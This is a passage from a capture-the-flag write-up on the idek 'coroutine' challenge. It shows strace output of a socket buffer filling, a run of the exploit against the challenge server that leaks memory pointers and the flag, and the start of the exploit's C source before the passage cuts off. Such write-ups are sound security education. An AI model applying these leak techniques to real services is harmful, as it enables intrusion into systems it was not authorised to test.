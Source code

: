 ```
sendto(4, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 324, 0, NULL, 0) = -1 EAGAIN (Resource temporarily unavailable)
```

As can be seen on the previous listing, the buffer is filled after 5 packets of
513 bytes followed by one packet of 189 bytes (excluding TCP overhead).

In order to make the development of the exploit reproducible and nullify side
effects caused by networking, a small delay was added after each write.

```
% ./pwn | nc coroutine.chal.idek.team 1337
[...]
b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x08\\t\x81\xb6U\x00\x00@\x90\x80r\x92\x7f\x00\x00\xd3\xd4?r\x92\x7f\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x00\xcc\xad\xe93M''\x00\x00\x00\x00BBBB`\xff\xff\xff\xff\xff\xff\xff\x0b\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x08\\t\x81\xb6U\x00\x00@\x90\x80r\x92\x7f\x00\x00\xd3\xd4?r\x92\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xed?>r\x92\x7f\x00\x00@\xc7&r\x92\x7f\x00\x00\x00\xe6Vr\x92\x7f\x00\x00@bg\x83\xb6U\x00\x00\xa7m=r\x92\x7f\x00\x00\x10N\nc\xfc\x7f\x00\x000K\nc\xfc\x7f\x00\x000bg\x83\xb6U\x00\x00;\xc6s\x81\xb6U\x00\x00BBBBBBBB@bg\x83\xb6U\x00\x00idek{exploiting_coroutines}\x00BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x00\xcc\xad\xe93M'' dg\x83\xb6U\x00\x00@J\nc\xfc\x7f\x00\x00 J\nc\xfc\x7f\x00\x00\x1a\xfcs\x81\xb6U\x00\x00\x00eg\x83\xb6U\x00\x00\\J\nc\xfc\x7f\x00\x00@J\nc\xfc\x7f\x00\x00F\x02t\x81\xb6U\x00\x00\x00eg\x83\xb6U\x00\x00\\J\nc\xfc\x7f\x00\x00`J\nc\xfc\x7f\x00\x00(N\nc\xfc\x7f\x00\x00xJ\nc\xfc\x7f\x00\x00\x80J\nc\xfc\x7f\x00\x00\x90J\nc\xfc\x7f\x00\x00\xc0J\nc\xfc\x7f\x00\x00\x90J\nc\xfc\x7f\x00\x00\xb8dg\x83\xb6U\x00\x00\x90J\nc\xfc\x7f\x00\x00$\xees\x81\xb6U\x00\x00\x00eg\x83\xb6U\x00\x00\xb0dg\x83\xb6U\x00\x00\xd0J\nc\xfc\x7f\x00\x00n\xeds\x81\xb6U\x00\x00\x00eg\x83\xb6U\x00\x00\x98dg\x83\xb6U\x00\x00\x00"
Select Option:
1. Connect
2. Change Receive Buffer
3. Change Send Buffer
4. Send data
5. Receive data
> Size> 
```

**Flag**: `idek{exploiting_coroutines}`

## Appendices
### pwn.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define LOCAL 0

bool conn(const char *arg); // connect
bool rcvbuf(unsigned int n); // change recv buffer size
bool sndbuf(unsigned int n); // change send buffer size
bool push(size_t n, const char buffer[static n]); // send data
bool get(size_t n, const char buffer[static n]); // recv data

#if LOCAL
int fd;

__attribute__((constructor))
void createSocket(void)
{
	fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
```